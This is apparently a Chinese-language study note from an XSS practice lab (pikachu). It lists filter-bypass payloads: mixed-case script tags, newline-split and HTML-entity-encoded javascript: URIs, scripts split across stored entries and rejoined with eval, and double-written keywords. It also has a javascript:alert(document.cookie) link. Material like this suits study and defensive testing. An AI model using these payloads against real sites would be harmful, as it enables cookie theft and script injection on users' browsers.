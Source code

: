 ```bash
javascript:alert(document.cookie)  (可用在href里)
```

## XSS变形

实验环境pikachu XSS

1. 大小写

    ```bash
    <SCRipt>alert(1)</scRiPt>
    ```
2. 引号‘“
3. 空格过滤/绕过
4. 回车绕过

    ```javascript
    <a href="j
    a
    v
    ascript:alert('XSS')">回车可用</a>
    ```

    事件无法使用
5. 编码绕过

    java==>html 16进制`&#x006a;&#x0061;&#x0076;&#x0061;`​

    script==>html 10进制 `&#115;&#99;&#114;&#105;&#112;&#116;`​

    ```javascript
    <a href="&#x006a;&#x0061;&#x0076;&#x0061;&#115;&#99;&#114;&#105;&#112;&#116;:alert('编码可用')">编码可用</a>
    ```

6. 拆分跨站  仅存储型

    ```javascript
    //原始payload：
    <script>
        a="alert";
        a=a+"('使用变量和函数调用alert')";
        eval(a);
    </script>

    //拆分后payload：
    <script>a="alert";</script>
    <script>a=a+"('使用变量和函数调用alert')";</script>
    <script>eval(a);</script>
    ```

7. 双写 leve7

    payload：

    ```bash
    "><a hrhrefef="javascrscriptipt:alert('XSS')">111</a>
    ```
